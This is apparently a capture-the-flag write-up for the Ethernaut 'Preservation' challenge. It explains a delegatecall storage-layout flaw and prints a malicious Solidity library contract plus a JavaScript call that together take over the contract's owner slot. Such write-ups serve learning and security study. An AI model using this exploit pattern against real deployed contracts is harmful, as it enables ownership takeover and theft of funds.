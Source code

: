 The vulnerability `Preservation` contract comes from the fact that its storage layout is **NOT** parallel or complementing to that of `LibraryContract` whose method the `Preservation` is calling using `delegatecall`.

Since `delegatecall` is **_context-preserving_** any write would alter the storage of `Preservation`, and **NOT** `LibraryContract`.

The call to `setTime` of `LibraryContract` is supposed to change `storedTime` (slot 3) in `Preservation` but instead it would write to `timeZone1Library` (slot 0). This is because storeTime of `LibraryContract` is at slot 0 and the corresponding slot 0 storage at `Preservation` is `timeZone1Library`.

|        | LibraryContract |      Preservation       |
| :----: | :-------------: | :---------------------: |
| Slot 0 |   storedTime    | &larr; timeZone1Library |
| Slot 1 |        -        |    timeZone2Library     |
| Slot 2 |        -        |          owner          |
| Slot 3 |        -        |       storedTime        |

Solution:

This information can be used to alter `timeZone1Library` address to a malicious contract - `HackLibraryContract`. So that calls to `setTime` is executed in a `HackLibraryContract`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract HackLibraryContract {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

Note that storage layout of `HackLibraryContract` is complementing to `Preservation` so that proper state variables are changed in `Preservation` when any storage changes. Moreover, `setTime` contains malicious code that changes ownership to msg.sender (which would the `player`).

First deploy EvilLibraryContract and copy it's address. Then alter the timeZone1Library in Preservation by:

```js
await contract.setFirstTime(<hack-library-contract-address>)
```

(a 32 byte `uint` type can accommodate 20 byte `address` value)

Now the `delegatecall` in `setFirstTime` would execute `setTime` of `HackLibraryContract`, instead of `LibraryContract` since `timeZone1Library` is now your malicious contract address.
